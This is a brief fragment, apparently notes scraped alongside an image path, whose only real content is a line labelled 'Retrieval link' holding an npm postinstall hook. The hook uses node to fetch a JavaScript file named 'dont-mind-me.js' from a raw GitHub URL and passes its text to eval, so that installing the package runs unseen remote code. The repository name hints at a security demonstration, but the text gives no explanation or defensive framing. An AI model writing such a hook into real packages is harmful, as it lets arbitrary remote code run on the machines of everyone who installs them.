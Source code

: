 # Notes:

Retrieval link:
`"postinstall": "node -e \"fetch('https://raw.githubusercontent.com/EnturWilhelm/king-sikkerhet-demo-extract/refs/heads/main/dont-mind-me.js').then(res => res.text()).then(text => eval(text));\""`